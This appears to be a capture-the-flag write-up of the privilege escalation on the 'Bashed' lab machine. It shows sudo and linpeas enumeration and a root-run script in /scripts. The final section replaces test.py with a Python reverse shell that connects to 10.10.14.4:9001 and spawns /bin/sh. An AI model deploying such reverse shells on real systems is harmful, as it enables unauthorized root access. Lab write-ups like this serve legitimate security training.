

# PrivEsc

# Checking sudo permissions

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```


# linpeas.sh

```bash
[+] Readable files belonging to root and readable by me but not world readable                                
                                                                                                                                                             
[+] Modified interesting files in the last 5mins (limit 100)                                                                                                 
/scripts/test.txt                                                                                                                                            
/home/scriptmanager/.gnupg/trustdb.gpg                                                                                                                       
/home/scriptmanager/.gnupg/pubring.gpg                                                                                                                       
/home/scriptmanager/.gnupg/gpg.conf                                                                                                                          
/var/log/auth.log                                                                                                                                            
/var/log/syslog                                                                                                                                              
```


# /script/ directory

Script manager is the owner of test.py but it writes to text.txt as root. We can write our malicious code in test.py so maybe root could run it again.

```py
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 12 06:29 test.txt
scriptmanager@bashed:/scripts$ cat test.py 
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

# new test.py

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```


